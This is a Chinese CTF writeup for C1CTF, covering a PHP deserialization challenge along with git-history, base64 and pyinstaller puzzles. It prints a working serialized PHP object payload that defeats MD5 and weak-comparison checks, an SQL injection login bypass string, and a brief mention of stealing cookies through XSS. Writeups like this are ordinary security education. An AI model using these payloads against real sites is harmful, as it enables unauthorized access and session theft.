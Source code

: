 ```yaml
---
title: C1CTF Writeup
categories:
  - 比赛Writeup
tags:
  - ctf
  - Writeup
index_img: /img/used/comp.jpg
date: 2019-12-10 16:32:29

---
```


# C1CTF Writeup

首先是Web部分

## Paradox

用到的知识点都不难，分别是MD5数组绕过、php伪协议和弱类型比较。就当巩固基础了，但发现了一个做题的小技巧，在这里总结一下。

做这种审计题，最好的办法就是本地搭建环境模拟。这样既可以进行一些php的序列化操作，又可以看到输入的变量，比较清晰。演示一下：  

首先部署docker环境，命令如下：

```bash
docker run --name lampTest -p 8088:80 --volume `pwd`/public_html:/var/www/example.com/public_html/ -i -t linode/lamp /bin/bash
```

这是把所在目录下的`publim_html`目录绑定到docker容器中对应的目录，就可以在外部修改网页了。之后按照题目要求，添加`index.php`和`flag.php`。

```php
<?php
//index.php
include 'flag.php';

Class Paradox {
    public $flag;
    public $filename;
    public $noncea;
    public $nonceb;

    function paradox_one() {
        if ($this->noncea != $this->nonceb && md5($this->noncea) == md5($this->nonceb)) {
            return true;
        } else {
            echo "Failed in paradox_one";
            return false;
        }
    }
    function paradox_two() {
        if (file_get_contents($this->filename) == 'welcome_to_c1ctf') {
            return true;
        } else {
            echo "Failed in paradox_two";
            return false;
        }
    }
    function paradox_three() {
        var_dump(0 == "C1CTF{}");//True
        global $flag;
        if ($this->flag == $flag) {
            return true;
        } else {
            echo "Failed in paradox_three";
            return false;
        }
    }

    function __destruct() {
        global $flag;
        if ($this->paradox_one() && $this->paradox_two() && $this->paradox_three()) {
            echo "You solved all paradox! Here is your flag<br>";
            echo $flag;
        }
    }
}

/*
  这些是测试用的
*/
$sample_ans = new Paradox();
$sample_ans->noncea = array();
$sample_ans->nonceb = array("1"=>"2");
$sample_ans->filename = "data:text/plain,welcome_to_c1ctf";
$sample_ans->flag = 0;
$s = serialize($sample_ans);
echo $s;

if (isset($_REQUEST['answer'])) {
    unserialize($_REQUEST['answer']);
} else {
    highlight_file(__FILE__);}
?>
```

```php
<?php
echo "flag.php included.";
global $flag;
$flag = "C1CTF{This_Is_a_Sample_Flag}";
?>
```

如index.php最后几行中，进行了对象满足条件与否的测试，对象`$sample_ans`已经满足题目要求了。  

![](https://upload-images.jianshu.io/upload_images/19782504-599c056e0b57ccf4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

接下来序列化即可，然后传入answer参数中。

![](https://upload-images.jianshu.io/upload_images/19782504-be244bb145d1da95.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

最后的payload为

```
?answer=O:7:"Paradox":4:{s:4:"flag";i:0;s:8:"filename";s:32:"data:text/plain,welcome_to_c1ctf";s:6:"noncea";a:0:{}s:6:"nonceb";a:1:{i:1;s:1:"2";}}
```

在真实网站提交即可。  

`C1CTF{d0_th3_imp0ssibl3_see_7he_1nv1s1bl3}`

## login

![](https://upload-images.jianshu.io/upload_images/19782504-a3ed52c720ba7204.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

然而这种事情是真实发生的，我还能说什么呢？  

`C1CTF{1ns3cure_htm1_n0sql}`

## LoginV2

一个admin' or 1=1#就过了，我还能说什么呢？  

```
C1CTF{eZ_my3ql_inj3ct_with_'0r_1=1#}
```

## Pastebin

简单XSS，接收cookie即可

---

然后是Misc部分

## ez_github

给了一个git仓库，只有一个flag.txt，发现了很多分支和commit，自然要查看一下历史版本中有没有什么信息了。查看了几个发现格式很一致，都是`字符----数字`的格式。使用命令`git rev-list --all | xargs git grep "-" > out.txt`将历史版本中，含有-的输出到out.txt中，文件大概这样：

```
c769ffec48a03185a32c3af1b4f4c06476d4f787:flag.txt:5----127
14bc3c9cff8c980294b9189d18c63397b4239581:flag.txt:A----126
be5225cc40b0e1de8b943a030645ed2e493a864f:flag.txt:D----125

...

cad350b221f4698b9629c1f2a95a07567070efce:flag.txt:o----3
1cdaadd164b9e00d78767882317728624a05ce63:flag.txt:Z----2
53e40b7d21168c372111a4dcb3fae9e76f125d77:flag.txt:l----1
479b628a952a6938e5a234bfa4d7863db42c2ccf:flag.txt:V----0
```

自然想到按照字母排序，脚本如下  

```python
#solve.py
data = ""
with open("out.txt") as f:
    for line in f:
        data += line.split(":")[-1]

ndata = ""
for line in data.split("\n"):
    if len(line) > 0:
        ndata+=line[0]

print(ndata[::-1])
```

```bash
$ python3 solve.py 
VlZod1IxSkdXa1pYYW1SUVZqQnNOVlJzVWtOaVZUUjVWMWhrVDFKR1duTlVXSEJhWlVVeFNGTlVTazVpVm10M1ZHNXdWMkpHY0ZWV1ZFcFBaV3N3ZDFkWE1VZFBVVDA5
```

看起来像是base64的亚子，四次b64decode得到flag。

```python
>>> a=VlZod1IxSkdXa1pYYW1SUVZqQnNOVlJzVWtOaVZUUjVWMWhrVDFKR1duTlVXSEJhWlVVeFNGTlVTazVpVm10M1ZHNXdWMkpHY0ZWV1ZFcFBaV3N3ZDFkWE1VZFBVVDA5
>>> base64.b64decode( base64.b64decode( base64.b64decode( base64.b64decode(a))))
b'C1CTF{9b250f7f045e3610b62f475ee56734ba}'
```

## BabyBase64

盲猜Base64密码表的替换。编写脚本：

```python
import base64
import string

str1 = "Lt2ZR0M4AZBtMELuKt2tKwMvPdzzVA== "#解密

string1 = "C1sec20I9/iS+FUNABDEGHJKLMOPQRTVWXYZabdfghjklmnopqrtuvwxyz345678"#替换
string2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

print (base64.b64decode(str1.translate(str.maketrans(string1,string2))).decode())
```

`c1ctf{B4se64_1s_funny}`

## 2048

是一个pyinstaller生成的小游戏。用网上的 pyinstaller extractor进行提取。然后寻找flag...

```bash
raidriarb@Rmbp C1CTF_2048.exe_extracted % grep C1CTF *
grep: PYZ-00.pyz_extracted: Is a directory
Binary file puzzle matches
```

打开这个puzzle文件，这里只显示了一部分。出现了lost时的字符串`You Lost!`。看了是这个没错了，把这些奇怪的字符去掉试一试：

```
jdd    jdtjdçdS)Nr*zback on step total step:F⁄winrZC1CTF)r rz{2048rZ_1s_Èzfun}ZloseZYouzLost!)⁄repr⁄charrZKEY_BACK⁄lenr1⁄popr/r⁄printrr
r2r%Z
```

`C1CTF{2048_1s_fun}`  

而且看起来玩到2048是真的可以给你flag的。。
